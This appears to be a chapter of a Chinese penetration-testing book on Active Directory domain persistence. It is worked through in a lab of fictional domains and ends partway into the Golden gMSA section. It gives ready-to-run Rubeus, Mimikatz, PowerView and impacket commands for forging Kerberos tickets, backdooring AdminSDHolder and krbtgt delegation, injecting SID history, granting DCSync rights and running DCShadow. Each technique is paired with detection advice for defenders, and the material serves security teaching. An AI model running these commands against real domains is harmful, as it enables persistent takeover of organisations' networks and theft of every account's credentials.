




# 第七章：域级持久性

在进攻性操作中，对手需要保持对目标环境的访问。诸如重启和更改用户密码等活动可能会干扰操作流程。为了克服这些中断，有一些技术可以帮助我们实现持久性。在本章中，我们不会讨论 Windows 工作站和服务器上的主机持久性技术。相反，我们将专注于域级持久性以及特定于域控制器的技术。我们的第一个主题是最著名的票据（黄金票、银票、钻石票和蓝宝石票）。我们将讨论它们之间的区别，并展示它们在 OpSec 方面的实际应用。其他域级持久性主题，例如添加到**SID 历史**属性和`AdminSDHolder`域对象的 ACL 和 DACL 操作、委托权限滥用，将通过实际例子进行讲解和演示。最后，我们将通过讨论`DCShadow`和 Golden gMSA 攻击来结束域级持久性话题。域控制器持久性主要通过操控凭证来实现，方法包括`Skeleton Key`攻击、恶意的**安全支持提供者**（**SSP**）注册或访问**目录服务恢复模式**（**DSRM**）哈希。最后，我们将阐述如何操作 WMI、PS-Remoting 的安全描述符，以及如何设置注册表后门来获取计算机的 NT 哈希、SAM 或缓存的 AD 凭证。

在本章中，我们将讨论以下主要内容：

+   域持久性，我们将讨论伪造票据、域对象的 ACL/属性操作、DCShadow 攻击和 Golden gMSA 攻击

+   域控制器持久性，我们将讨论恶意的 SSP 注册、Skeleton Key 攻击、DSRM 哈希转储、注册表后门和安全描述符操作（WMI 和 PS-Remoting）

# 技术要求

在本章中，你将需要以下内容：

+   VMware Workstation 或 Oracle VM VirtualBox，至少需要 16GB 的 RAM、8 个 CPU 核心和至少 55GB 的总空间（如果你要拍摄快照，需要更多空间）

+   强烈建议使用基于 Linux 的操作系统

+   安装了相应虚拟化平台插件和 Ansible 的 Vagrant

+   在 GOADv2 项目中，我们将使用`DC01`、`SRV01`、`DC03`和`SRV03`虚拟机

# 域持久性

在本节中，我们将讨论实现域级持久性的各种方法。这些技术需要相当高的权限，等同于域管理员。实现目标环境中的持久性最直接的方法是创建和/或将被妥协的用户或计算机帐户添加到高权限组中。然而，我们将专注于更复杂的技术。此外，我们不会从持久性角度讨论组策略滥用和定向 Kerberoasting，因为其利用方式与*第六章*中的示例完全相同，只不过重点放在特权帐户上。在以下技术中，我们将依赖于特权但很少更改的凭证材料（例如，krbtgt 帐户的哈希值）或属性和 ACL 操作。

## 伪造票证

我们将从伪造票证开始我们的旅程——它们的类型、创建方法、使用方式以及如何保持低调的 OpSec 建议。一个重要的理论概念是**特权属性证书**（**PAC**）。PAC 在 Kerberos 协议中用于将用户权限分配给服务，例如用户名、SID 和组成员资格。PAC 是每个票证的一部分，并使用**密钥分发中心**（**KDC**）的密钥或服务帐户密钥进行加密。当我们说票证是伪造的，我们指的是我们在其中放入任意的 PAC 内容。我们将首先探讨的伪造票证类型是银票。

注意

关于金票和银票的深入详细介绍可以在这里找到：[`en.hackndo.com/kerberos-silver-golden-tickets/`](https://en.hackndo.com/kerberos-silver-golden-tickets/)。

### 银票

当用户需要访问某项服务时，会发出 ST 请求（**KRB_TGS_REQ**）并得到回复（**KRB_TGS_REP**）。回复会使用运行该服务的帐户的 NT 哈希加密。如果攻击者获得了服务帐户的密码或 NT 哈希，就可以伪造一个 PAC，从而伪造服务票证，而无需与域控制器交互。这样的伪造票证称为**银票**。关于伪造 PAC 的一个小注意事项是，最终它将由服务帐户和 krbtgt 的 NT 哈希双重签名。然而，方便的是，对于服务票证，只会验证第一个签名。需要注意的是，自 2021 年 11 月的微软补丁之后，如果提供的用户名在域中不存在，票证将被拒绝[1]。银票也可以伪造域控制器的帐户。

作为示例，让我们在一台非域加入的机器上，以标准用户`lord.varys`身份，为`castelrock.sevenkingdoms.local`服务器伪造一个银票。我们将使用 Rubeus 为用户`robert.baratheon`（它可以是任何现有的域用户）创建一个票证，针对`castelrock`上的 CIFS 服务，使用`castelrock$`帐户的 AES256 密钥：

```
runas /netonly /user:sevenkingdoms\lord.varys cmd
Rubeus.exe silver /user:robert.baratheon /domain:sevenking doms.local /aes256:9a0d511ea6556233b28c0c0ec576e120cfdb08c372ef 5a7c4def5c829666d75f /sid:S-1-5-21-4243769114-3325725031-2403382846 /service:cifs/castelrock.sevenkingdoms.local /ptt
ls \\castelrock.sevenkingdoms.local\c$
```

Rubeus 已经成功注入了票证：


图 7.1 – 在注入票证之前无法访问 CIFS 服务

注入票证后，`castelrock` 上的 CIFS 服务可以访问：



图 7.2 – Silver Ticket 为 lord.varys 提供访问权限

检测 Silver Ticket 是一项具有挑战性的任务。它比 Golden Ticket 更隐蔽，因为域控制器不参与其中，而且服务账户的 NT 哈希更容易获取。蓝队需要从服务器中提取日志并检查事件 ID `4769`，以查看是否存在可能的加密降级（如果使用 RC4 而不是 AES256）。Windows 登录/注销事件 ID `4624` 和 `4647` 也可以提供有关用户名、源 IP 地址和用户 SID 的信息。如果我们在审计登录策略中启用了 **成功** 审计日志，事件 ID `4627` 将显示已登录用户的组成员信息。以下是事件 ID `4624` 的登录事件示例：


图 7.3 – 缺失的用户名和域名，以及攻击机器的 IP 地址

最后，我们可能需要在 Rubeus 中使用 `/nofullpacsig` 标志来排除 `FullPacChecksum`，该补丁是为 `CVE-2022-37967` 引入的。这个补丁引入了对丢失或无效 PAC 签名的检查。如果补丁已应用，注册表键 `KrbtgtFullPacSignature` 将在域控制器上创建。撰写本文时，Microsoft 预计将于 2023 年 10 月强制执行签名。这个票证有一个更加隐蔽的替代方案，它具有有效的 PAC 并基于 `S4U2self` 滥用。接下来我们来看一下。

### Silver Ticket 的隐蔽替代方案（S4U2self 滥用）

`S4U2self` Kerberos 扩展允许服务代表用户获取自己的服务票证。需要特别提到的是，`S4U2self` 可以由机器上的任何帐户使用，包括虚拟帐户或网络服务帐户，但在网络上，它充当的是机器本身。`S4U2self` 可以帮助在攻击者已经妥协机器上的虚拟或网络服务帐户（如 AppPool 或 MSSQL）后进行本地权限提升，之后请求任何用户的服务票证给自己。值得注意的是，用户甚至可以来自 `Protected Users` 组，或者启用了 **账户为敏感且无法委派** 的 `UserAccountControl` 属性。

注意

本地权限提升的示例和 *Charlie Clark* 的原创研究可以在此查看：[`exploit.ph/revisiting-delegate-2-thyself.xhtml`](https://exploit.ph/revisiting-delegate-2-thyself.xhtml)。

现在，我们将展示与银票证不同的替代场景。我将使用一台非域加入机器，并使用`castelrock`机器账户的 NT 哈希。

该攻击分为两个步骤——首先获取机器账户的 TGT，然后使用该 TGT 进行`S4U2self`请求以获取服务票证。在第一步中，攻击者可以通过已知计算机账户哈希的方式正常请求机器账户的 TGT。以下命令将请求 TGT：

```
Rubeus.exe asktgt /domain:sevenkingdoms.local /dc:kingslanding.sevenkingdoms.local /user:castelrock$ /rc4:b49f30381ea7ae249a1d8179802f6982 /nowrap
```

TGT 请求的结果如下面的截图所示：


图 7.4 – 获取机器账户的 TGT

接着，攻击者可以请求服务票证。请注意`/self`标志，以便模拟受保护用户：

```
Rubeus.exe s4u /self /impersonateuser:robert.baratheon /dc:kingslanding.sevenkingdoms.local /altservice:"http/castelrock.sevenkingdoms.local" /ticket:"tgt_from_step_1" /nowrap /ptt
Invoke-Command -ComputerName castelrock.sevenkingdoms.local -Command {whoami;hostname}
```

结果如下面的截图所示：



图 7.5 – 成功的 S42Uself 滥用

相较于银票证，`S4U2self`滥用的主要优势在于服务票证具有有效的 PAC，而不是伪造的。现在，让我们讨论一种更为强大的伪造票证类型——**黄金票证**。

### 黄金票证

黄金票证本质上是伪造的 TGT 票证。凭借这样的 TGT 票证，我们可以作为域中的任何用户请求任何服务票证。理解银票证和黄金票证之间差异的一个很好的比喻是：银票证就像签证，你可以进入一个国家（一个服务器）并在其中旅行（请求访问该服务器上的所有服务）；而黄金票证就像护照，你可以申请每个国家的签证（访问该域中任何资源）。

要伪造 TGT，我们需要知道`krbtgt`账户的 NT 哈希，该信息只能通过域管理员或域中的复制权限获取。微软尝试通过针对`CVE-2021-42287`的补丁（**KB5008380**）来阻止黄金票证伪造。该补丁的思路是引入一个新的数据结构，在 PAC 中包含用户的 SID。然而，如果提供了正确的 SID，攻击仍然会成功[2]。Rubeus 中有两个开关，`/oldpac`和`/newpac`，可以根据补丁安装和强制执行状态来伪造票证。

我们将创建一个黄金票证，用于从`castelrock.sevenkingdoms.local`机器访问`kingslanding.sevenkingdoms.local`文件系统，使用低权限用户`jaime.lannister`进行身份验证：

```
Rubeus.exe golden /user:robert.baratheon /domain:sevenkingdoms.local /aes256:2279187d6dfbacdc093cadef2964eb0afa1ef16af87cc638d34d3a4ea 49f1aa0 /sid:S-1-5-21-4243769114-3325725031-2403382846 /ptt
ls \\kingslanding.sevenkingdoms.local\c$
```

在注入黄金票证之前，我们看到如下屏幕：


图 7.6 – 黄金票证伪造过程

注入黄金票证后，我们看到如下屏幕：



图 7.7 – 使用黄金票证访问域控制器

检测黄金票证是困难的。我们需要检查日志，特别关注票证加密类型（可能的降级）及其生命周期。票证加密类型可以在事件 ID `4769` 中找到。TGT 中非默认的生命周期值是一个很好的指示——例如，默认情况下，域票证的生命周期是 10 小时，但 Mimikatz 创建了一个生命周期为 10 年的票证。如果事件 ID `4769`（**Kerberos 服务票证**）缺少对应的事件 ID `4768`（**请求 Kerberos 身份验证票证（TGT）**），那就是使用黄金票证的明确迹象。我们有更隐蔽、更好的方式吗？有的！接下来会介绍 **钻石票证**。

### 钻石票证

钻石票证的概念源自钻石 PAC 攻击，旨在比黄金票证或银票证更隐蔽。攻击的过程从低权限用户请求 TGT 开始，以获取一个合法的票证，然后解密并修改 PAC，重新计算签名，再次加密票证。记住，只能使用已经存在的域用户，否则在最新环境下票证将被拒绝。

注意

关于钻石票证的原始研究可以在这里找到：[`www.semperis.com/blog/a-diamond-ticket-in-the-ruff/`](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)。

让我们复现这个攻击。第一步，我们将为标准用户（**jaime.lannister**）请求一个 TGT。选择 `/tgtdeleg` 标志后，我们可以使用 Kerberos GSS-API 获取当前用户的 TGT，而无需知道密码。`/krbkey` 是 krbtgt 账户的 AES 密钥，`/ticketuserid` 是 `/ticketuser` 的 **相对标识符**（**RID**），`/groups` 指定了票证的组。为了执行这些操作，我们将使用 Rubeus 和以下参数：

```
Rubeus.exe diamond /tgtdeleg  /krbkey:2279187d6dfbacdc093cadef2964eb0afa1ef16af87cc638d34 d3a4ea49f1aa0 /ticketuser:robert.baratheon /ticketuserid:1113 /groups:512 /nowrap
```

下面的截图显示了用户请求 TGT 时未使用 `/tgtdeleg` 标志的例子：


图 7.8 – 低权限用户请求的 TGT

PAC 修改会实时发生，如下图所示：


图 7.9 – 修改后的 TGT

使用伪造的 TGT，我们可以通过以下命令请求域控制器上的 CIFS 服务票证：

```
Rubeus.exe asktgs /user:robert.baratheon /ticket:<diamon_ticket_here> /service:cifs/kingslanding.sevenkingdoms.local /ptt /nowrap
```

下面展示了 ST 请求：


图 7.10 – 请求 ST

我们可以访问在域控制器上运行的 CIFS 服务：


图 7.11 – CIFS 服务访问

检测 Diamond Ticket 是更为复杂的任务，需要检查票证内容并确保票证中的值与域中的默认值匹配。事件 ID `4627` 可显示低权限用户添加的任何额外组成员。AD 中 PAC 的值与实际用户权限之间的差异也可用于发现恶意活动。最后，我们将讨论 Sapphire Tickets，这是 Diamond Ticket 的更隐秘版本。

### Sapphire Ticket

Sapphire Ticket（蓝宝石票证）是 Diamond Ticket（钻石票证）的增强版本，允许攻击者更大程度地模仿合法活动。其核心思想是，不像使用 Diamond Ticket 时修改合法 TGT 中的 PAC，我们将通过 `S4U2self+u2u` 技巧复制另一高权限用户的合法 PAC，并替换到原始 TGT 中。在这种情况下，我们将避免 PAC 和有效用户权限之间的差异。以下命令使用 `-impersonate` 标志将创建一个 Sapphire Ticket：

```
impacket-ticketer -request -impersonate 'robert.baratheon' -domain 'sevenkingdoms.local' -user 'jaime.lannister' -password 'cersei' -aesKey '2279187d6dfbacdc093cadef2964eb0afa1ef16af87cc638d34d3a4ea49f1aa0' -domain-sid 'S-1-5-21-4243769114-3325725031-2403382846' 'vinegrep'
```

在撰写本文时，Rubeus 或 Impacket 中尚不支持 Sapphire Ticket 功能。Pull request `1411` 已发送给 Impacket，但尚未合并到主分支中。

通过域控制器的日志分析仍然可以检测到 Sapphire Ticket。通过 `4768` 和 `4769` 事件序列可以检测到新伪造票证的即时使用。在日志中，来自相同 `Client Address` 的 TGT 和 ST 请求将出现两个不同的 `Account Name` 值，然而 ST 中的用户名从未登录到该计算机。

注意

可以在 [`pgj11.com/posts/Diamond-And-Sapphire-Tickets/`](https://pgj11.com/posts/Diamond-And-Sapphire-Tickets/) 和 [`unit42.paloaltonetworks.com/next-gen-kerberos-attacks/`](https://unit42.paloaltonetworks.com/next-gen-kerberos-attacks/) 查找 Diamond 和 Sapphire Tickets 的检测方法。

*Charlie Clark* 和 *Andrew Schwartz* 提出了关于检测伪造票证的有希望的研究。其思路是解密票证并对票证的时间和校验和进行详细分析。蓝队可以创建自定义的 Kerberos 票证策略，为用户强制执行 `logonHours` 属性，并验证 krbtgt 密钥正确签名的校验和。他们还发布了一个名为 `WonkaVision` 的工具，自动化了大部分这些检查。你可以从 GitHub[4] 上下载该工具。

接下来的部分将重点介绍通过对不同域对象的 ACL 或属性进行操作来实现持久性。

## 域对象的 ACL 和属性操作

本节将介绍如何通过对各种域对象的 ACL 和属性进行操作来实现持久性。典型的 ACL 操作目标包括 `AdminSDHolder` 和域对象。属性更改攻击将瞄准 `SIDHistory`、userAccountControl、SPN 和委派属性。

### AdminSDHolder

Microsoft 在 AD 中引入了 AdminSDHolder 域对象，以防止高权限账户和组的 ACL 被修改。

注意

可以在此处找到默认的受保护对象列表：[`learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory`](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)。

若要手动查找属于 AdminSDHolder 的账户和组，我们可以搜索 `adminCount` 属性，并检查其属性中是否设置为 `1`。其思路是，AdminSDHolder 对象提供一个预设的安全权限模板，Security Descriptor Propagator 进程每 60 分钟应用一次，保护账户和组。

*Sean Metcalf* 发现了这一技术。通过域管理员权限，攻击者可以将任意用户账户添加到 AdminSDHolder 的 ACL 中。传播后，该用户账户将对域中所有特权组和账户拥有 `GenericAll` 权限。PowerView 使得该漏洞的利用变得非常简单：

```
Add-DomainObjectAcl -PrincipalIdentity jaime.lannister -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local' -Rights All -Verbose
```

在 60 分钟后，我们可以看到我们的用户账户被添加到 AdminSDHolder DACL 中：

```
Get-DomainObjectAcl -Identity 'CN=AdminSDHolder,CN=System,DC=sevenkingdoms,DC=local' | Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericAll")} | select securityidentifier
Get-DomainObjectAcl -Identity 'Domain Admins' | Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericAll")} | select securityidentifier
```

攻击过程如以下截图所示：


图 7.12 – jaime.lannister 被添加到 AdminSDHolder 域对象的 DACL 中

必要时，攻击者将以 `jaime.lannister` 身份登录，并将自己添加到 `domain** **admins` 组中：

```
net group "domain admins" jaime.lannister /add /domain
```

结果可以在以下截图中看到：


图 7.13 – jaime.lannister 用户账户被添加到 Domain Admins 组

有两种方法可以检测这种技术。我们可以定期查看 AdminSDHolder 对象的 ACL，以确保没有任何更改，并且可以监控 `adminCount** = **1` 的用户和组。现在，我们将讨论如何向域对象本身添加权限。

### 域

通过域管理员权限，我们可以为任何受我们控制的用户授予 `DCSync` 权限。结果，低权限用户将能够提取域中所有用户的哈希值。添加 DCSync 权限的 PowerView 命令如下所示：

```
Add-DomainObjectACL -PrincipalIdentity renly.baratheon -TargetIdentity "dc=sevenkingdoms,dc=local" -Rights DCSync -Verbose
```

然后，我们返回到低权限用户并运行以下 Mimikatz 命令：

```
mimikatz.exe "lsadump::dcsync /all /csv"
```

成功的 DCSync 攻击结果如图所示：


图 7.14 – 为用户添加 DCSync 权限并提取哈希值

DCSync 攻击检测在 *第四章* 中已有介绍。

现在，我们进入域对象属性操作部分。我们将从我们熟悉的老朋友——SID 历史开始。

### SID 历史

我们在*第五章*中详细讨论了 SID 历史，当时我们讲解了跨森林的横向移动。令人惊讶的是，SID 历史也适用于来自同一域的 SID，这意味着如果我们将特权 SID 添加到 SID 历史属性中，普通用户实际上将成为域管理员。

在 Windows Server 2016 之前，攻击者可以使用 Mimikatz 添加 SID 历史：

```
mimikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:jaime.lannister /new:S-1-5-21-4243769114-3325725031-2403382846-519"
```

然而，Windows Server 2016 中的 `sid::patch` 命令阻止了此攻击的执行，并在执行时显示以下错误：


图 7.15 – 通过 Mimikatz 添加 SID 历史时出现错误

直接在现代域控制器上添加 SID 历史的唯一已知方法在这里描述[5]。它涉及在域控制器上安装 DSInternals PowerShell 模块并重启 NTDS 服务：

```
Get-ADUser -Identity lord.varys -Properties sidhistory, memberof
Get-ADUser -Identity cersei.lannister -Properties sidhistory, memberof
Stop-service NTDS -Force
Add-ADDBSidHistory -samaccountname lord.varys -sidhistory S-1-5-21-4243769114-3325725031-2403382846-1111 -DBPath C:\Windows\ntds\ntds.dit -Force
Start-service NTDS
Get-ADUser -Identity lord.varys -Properties sidhistory, memberof
```

结果，用户 `lord.varys` 的 SID 历史中已添加了域管理员 SID，如下图所示：


图 7.16 – SID 历史已添加到 lord.varys 用户

要检测这一技术，我们可以在域控制器上配置事件 ID `4765`（**SID 历史已添加到帐户**）和 `4766`（**尝试将 SID 历史添加到帐户失败**）的审计。另一种方法是使用 PowerShell 查找 SID 历史中与域 SID 匹配的用户：

```
[string]$DomainSID = ((Get-ADDomain).DomainSID.Value)
Get-ADUser -Filter "SIDHistory -Like '*'" -Properties SIDHistory | Where {$_.SIDHistory -Like "$DomainSID-*"}
```

我们的持久化技巧已成功被检测，如下图所示：


图 7.17 – 检测到具有可疑 SID 历史的用户

接下来的技术与此类似，但我们现在将更改计算机的属性，使其成为域控制器。

### 服务器（不）信任帐户

该攻击的主要概念是将 `UF_SERVER_TRUST_ACCOUNT` 位设置在计算机的 userAccountControl 属性中。然后，AD 必须将此计算机的 `primaryGroupId` 属性设置为域控制器组的 RID。为了执行这些操作，我们需要域管理员权限。可以手动完成此操作，也可以借助 *Stealthbits*[6] 开发的 PowerShell 脚本。该脚本有三个功能。第一个命令将创建一个计算机对象，并授予 `Authenticated Users` 组 `Ds-Install-Replica` 和 `Write` 权限：

```
Add-ServerUntrustAccount -ComputerName Desktop -Password "Qwerty123!" -Verbose
```

当攻击者需要恢复对域的控制时，则必须调用第二个功能。它会将 userAccountControl 值设置为 `8192`（**SERVER_TRUST_ACCOUNT**），使用 Mimikatz 执行计算机帐户的 pass-the-hash 攻击，并最终执行 DCSync：

```
Invoke-ServerUntrustAccount -ComputerName Desktop -Password "Qwerty123!" -MimikatzPath "C:\Users\robert.baratheon\Downloads\mimikatz_trunk\x64\mimikatz.exe" -Verbose
```

第三个功能用于清理：

```
Remove-ServerUntrustAccount -ComputerName Desktop -DeleteComputer
```

以下截图显示了完整的攻击链执行：


图 7.18 – 服务器信任帐户攻击

该攻击为攻击者创建了相当重要的立足点，从计算机账户的创建和该账户上不寻常的 ACL 开始，进一步通过传递哈希进行横向移动，最后进行 DCSync 攻击。稍后我们将解释你可能从未听说过的最危险的用户权限。

### SeEnableDelegationPrivilege

这里的主要思想是控制一个具有`SeEnableDelegationPrivilege`用户权限的对象，如果该对象对域中任何用户或计算机拥有`GenericAll`或`GenericWrite`权限，攻击者将实现域持久性。令人惊讶的是，`GenericAll`权限不足以修改账户的委派设置，这就是为什么需要`SeEnableDelegationPrivilege`权限的原因。默认情况下，这一权限仅适用于域控制器本身。

注意

这个技术是由*harmj0y*发现的，并且在此有详细描述：[`blog.harmj0y.net/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/`](https://blog.harmj0y.net/activedirectory/the-most-dangerous-user-right-you-probably-have-never-heard-of/)。

首先，我们必须通过编辑**默认域控制器**策略来授予后门用户此权限，策略文件位置为`\\sevenkingdoms.local\sysvol\sevenkingdoms.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf`。然后，我们利用对受害者用户的`GenericAll`或`GenericWrite`权限，将`msDS-AllowedToDelegateTo`值设置为指向我们的目标服务。`GenericWrite`在利用过程中需要知道受害者的密码，而`GenericAll`则允许我们更改密码。最后，我们通过与横向移动时相同的方式滥用受限委派。为了准备攻击演示实验室，我将通过 ADSI 编辑器将`tywin.lannister`用户账户授予`GenericAll`权限，赋予`renly.baratheon`账户，方法与上一章相同。

作为域管理员，攻击者可以手动将`tywin.lannister`添加到上述组策略中。以下 PowerView 命令将确认所有先决条件已满足：

```
$policy = Get-DomainPolicy -Source DC
$policy.PrivilegeRights.SeEnableDelegationPrivilege
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -eq 'tywin.lannister'}
```

结果见以下截图：


图 7.19 – tywin.lannister 用户具备执行攻击所需的所有权限

现在，我们使用以下命令设置`renly.baratheon`用户账户的`msDS-AllowedToDelegateTo`属性和 userAccountControl 标志：

```
Set-DomainObject -Identity renly.baratheon -Set @{"msds-allowedtodelegateto"="http/kingslanding.sevenkingdoms.local"} -Verbose
Set-DomainObject -Identity renly.baratheon -Xor @{"useraccountcontrol"="16777216"} -Verbose
Get-DomainObject -Identity renly.baratheon | select msds-allowedtodelegateto, useraccountcontrol | fl
```

成功执行上述命令的结果可以在以下截图中看到：


图 7.20 – 成功设置所需的用户属性

最后，我们将像在*第五章*中一样滥用受限委派。

从防御角度来看，必须监视此类用户权限以及 GPO 的更改。最终的后门技术也将依赖委派，但这次是在 krbtgt 账户上的 RBCD。

### krbtgt 上的委派

这种技术的理念是滥用 krbtgt 账户上的 RBCD。借助内置的域管理员组权限，攻击者可以设置 krbtgt 账户的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性。对于`Protected Users`组的成员和启用了`Account is sensitive and cannot be delegated`标志的账户，这个技巧不起作用。攻击者将通过创建或使用现有计算机账户来设置后门，并借助 AD 模块配置 krbtgt 账户的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性：

```
StandIn_v13_Net45.exe --computer legit --make
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount legit$ -Verbose
Get-ADUser krbtgt -Properties PrincipalsAllowedToDelegateToAccount
```

前述命令的结果可以在以下截图中看到：


图 7.21 – 成功设置 krbtgt 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性

要作为低权限用户利用后门，攻击者请求 krbtgt 服务的服务票据，并执行 DCSync 攻击，步骤如下：

```
Rubeus.exe hash /password:QMgbL9WpzfRgSrr
Rubeus.exe s4u /nowrap /impersonateuser:Administrator /msdsspn:krbtgt /domain:sevenkingdoms.local /user:legit$ /rc4:56E24C7AD8CCD68A1868CBFFA14B7CD1
Rubeus.exe asktgs /service:"ldap/kingslanding.sevenkingdoms.local" /ptt /ticket:"from_s4u_base64"
mimikatz.exe "lsadump::dcsync /csv /all" "exit"
```

前述命令执行的结果如下截图所示：


图 7.22 – 由于 krbtgt 账户上的委派而导致的 DCSync 攻击

从防御角度来看，检测这种技术的唯一方法是监视 krbtgt 账户属性的更改。现在我们已经完成了属性和 ACL 修改，我们将解释一个恶意域控制器攻击。

## DCShadow

DCShadow 攻击允许您创建一个伪造的域控制器并推送更改到 AD 对象。请注意，使用复制推送数据可能会破坏您的域。

注意

这种攻击是由*Vincent Le Toux*和*Benjamin Delpy*（[`www.dcshadow.com/`](https://www.dcshadow.com/)）在 2018 年提出的。

DCShadow 需要域管理员权限来复制更改，并需要在受损主机上具有`SYSTEM`权限，从而可以实现伪造域控制器功能。Le Toux 和 Delpy 描述的攻击步骤如下：

1.  通过在`CN=Configuration`分区中创建两个对象注册域控制器，并更改所使用计算机的 SPN。

1.  通过触发`DrsReplicaAdd`、KCC 或其他内部 AD 事件来推送数据。

1.  删除先前创建的对象以降级域控制器。

我们的攻击计划如下：我们将`daenerys.targaryen`（域管理员）的特权 SID 添加到低权限的`viserys.targaryen`用户账户的 SIDHistory 属性中。在`meereen.essos.local`上，我们以`daenerys.targaryen`身份登录，他在`essos.local`域中拥有域管理员权限。我们必须以`SYSTEM`身份运行以下 Mimikatz 命令：

```
!+
!processtoken
lsadump::dcshadow /object:viserys.targaryen /attribute:sidhistory /value:S-1-5-21-2801885930-3847104905-347266793-1110
```

执行结果如以下截图所示：


图 7.23 – DCShadow 添加 SIDHistory 属性

以下 Mimikatz 命令应使用域管理员权限执行：

```
token::whoami
lsadump::dcshadow /push
```

属性复制如以下截图所示：


图 7.24 – DCShadow 在域控制器上复制 SIDHistory 属性

结果是，`viserys.targaryen`已添加`SIDHistory`属性，并且现在可以访问域控制器：


图 7.25 – DCShadow 将特权 SID 添加到 viserys.targaryen

检测可以通过网络流量监控或通过与域控制器的事件相关联来完成。蓝队可以通过监控来自非域控制器的特定 API 调用来检测传入的复制流量。在域控制器的安全日志中，防御人员可以检查 ID 为`4662`的一系列事件，通常包含`CreateChild`、`Control Access`和`Delete`，这些操作在短时间内被访问。以下是记录的恶意事件示例：


图 7.26 – 恶意域控制器对象创建

另一种实现持久化的方式是通过使用来自*Nishang*[7]的脚本，在 AD 对象上设置 DCShadow 所需的最小权限。

我们的最后一个域级持久化技术，即 Golden gMSA 攻击，允许特权攻击者离线计算域和林中的 gMSA 密码。

## Golden gMSA

让我们回顾一下，gMSA 用于服务账户的自动密码轮换，以缓解诸如 Kerberoasting 等攻击。我们在*第四章*中评估了这一解决方案的安全性。Golden gMSA 攻击最初由*Yuval Gordon*提出，他来自一家名为 Semperis 的公司。攻击的核心思想是，攻击者如果能够获取包含附加属性的**密钥分发服务**（**KDS**）根密钥，就可以离线计算 gMSA 的密码。

注意

